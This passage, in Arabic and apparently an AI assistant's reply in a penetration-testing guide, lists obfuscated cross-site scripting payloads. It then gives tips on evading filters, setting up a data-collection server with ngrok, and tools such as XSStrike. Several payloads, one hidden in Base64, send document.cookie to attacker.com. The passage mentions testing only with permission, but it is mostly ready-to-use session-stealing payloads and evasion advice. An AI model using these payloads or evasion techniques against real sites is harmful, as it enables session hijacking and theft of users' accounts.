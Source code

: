 5. حقن مع التعتيم:
- <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>: يفك تشفير Base64 لتنفيذ تنبيه.
- <img src=x onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <script>alert(String.fromCharCode(88,83,83))</script>: يستخدم رموز ASCII.
- <img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">: يؤخر إرسال البيانات.
- <script>document['location']='http://attacker.com'</script>: يستخدم صيغة غير قياسية.



---

**نصائح إضافية**:
- **اختبار توافق المتصفح**: اختبر الحقن في متصفحات مختلفة (Chrome، Firefox، Safari، Edge) لأن السلوك قد يختلف.
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو `ngrok` لتسجيل البيانات، وتأكد من دعم طلبات GET وPOST.
- **تجاوز الفلاتر**: جرب تغيير حالة الأحرف (مثل `<SCRIPT>`)، استخدام أحداث غير شائعة (مثل `onfocus`)، أو تعتيم الشيفرة بـ Base64 أو ASCII.
- **اختبار نقاط الإدخال**: ركز على معلمات URL، حقول النماذج، ورؤوس HTTP التي تُعرض في الاستجابة.
- **الأدوات**: استخدم **Burp Suite** لمراقبة الطلبات، **XSStrike** لتوليد الحقن، أو **Selenium** لمحاكاة التفاعل مع الحقن.
- **القيود**: تحقق من سياسات CSP (Content Security Policy) التي قد تحظر تنفيذ JavaScript أو الطلبات الخارجية.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Test for Stored XSS" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل Reflected XSS في معلمات URL محددة)، أخبرني وسأقدم ردًا مخصصًا!